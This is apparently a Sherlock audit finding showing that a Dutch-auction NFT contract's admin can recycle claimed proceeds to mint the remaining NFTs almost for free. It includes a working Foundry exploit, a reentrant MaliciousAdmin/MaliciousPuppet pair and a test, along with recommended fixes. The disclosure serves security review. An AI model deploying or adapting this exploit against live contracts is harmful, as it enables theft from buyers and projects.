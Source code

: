 OxZ00mer

high

# The restricted admin can steal all of the NFTs at no cost

## Summary
The admin can mint all of the NFTs to themselves at no cost by calling the mint function after claiming the proceeds.

## Vulnerability Detail

https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L128
https://github.com/sherlock-audit/2023-07-beam-auction/blob/main/dutch-nft/src/MeritDutchAuction.sol#L172

The restricted admin account can withdraw the proceeds of the auction contract. This leads to two main problems:

1. Any funds the admin spends on NFTs now they will gain back afterward.
2. The fact that the admin can withdraw the proceeds leads to them being able to mint all of the NFTs left to be minted in the contract at once with almost no cost whatsoever other than the gas, given that at least one has been bought.

## Impact
The admin can steal all of the NFTs at only the cost of gas.

## Code Snippet
The following is a working PoC written in Foundry:

```solidity
MaliciousAdmin.sol

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "../src/MeritDutchAuction.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";


contract MaliciousAdmin {

    uint256 constant public TOKENS_TO_STEAL = 100;
    uint256 constant public TOKENS_PER_ADDRESS = 4;

    MeritDutchAuction public auction;
    uint256 depth;
    MaliciousPuppet public puppet;

    constructor() {}

    function setAuction(address _auction) public {
        auction = MeritDutchAuction(_auction);
    }

    function claimProceeds() external {
        auction.claimProceeds();
    }

    receive() external payable {

        if (auction.minted() > TOKENS_TO_STEAL) return;

        if (address(puppet) != address(0) && puppet.depth() < TOKENS_PER_ADDRESS) {
            puppet.mint{value: msg.value}();
            if (auction.minted() > TOKENS_TO_STEAL) return;
        }

        depth++;

        if (depth > TOKENS_PER_ADDRESS) {
                puppet = new MaliciousPuppet(address(this), address(auction));
                puppet.mint{value: msg.value}();
        }

        if (auction.minted() > TOKENS_TO_STEAL) return;

        auction.mint{value: 1e18}(1);

        auction.claimProceeds();
    }

}

contract MaliciousPuppet {

    MaliciousAdmin immutable master;
    MeritDutchAuction immutable auction;
    IERC721 public nft;
    uint public depth;

    constructor(address _master, address _auction) {
        master = MaliciousAdmin(payable(_master));
        auction = MeritDutchAuction(_auction);
        nft = IERC721(auction.nft());
    }

    function mint() public payable {
        depth += 1;
        auction.mint{value: msg.value}(1);
        nft.transferFrom(address(this), address(master), auction.minted());
        master.claimProceeds();
    }

}
```

```solidity
Test.t.sol

    function testAdminStealAllNFTs() public {
        console.log("balance of owner before:", nft.balanceOf(owner));

        vm.startPrank(wallet1);
        vm.warp(startTime);
        // Buy 1 NFT from an innocent user
        auction.mint{value: 1e18}(1);
        vm.stopPrank();
        vm.startPrank(owner);

        auction.claimProceeds();

        console.log("balance of owner after:", nft.balanceOf(owner));
    }
```

## Tool used

Manual Review, Foundry

## Recommendation
Consider implementing a system that will allow the admin to claim the proceeds after all of the NFTs have already been minted. Consider adding a mechanism that checks whether the NFTs got bought out in the same block and revert if so. The latter is to prevent a potential vector including the admin taking a flash loan.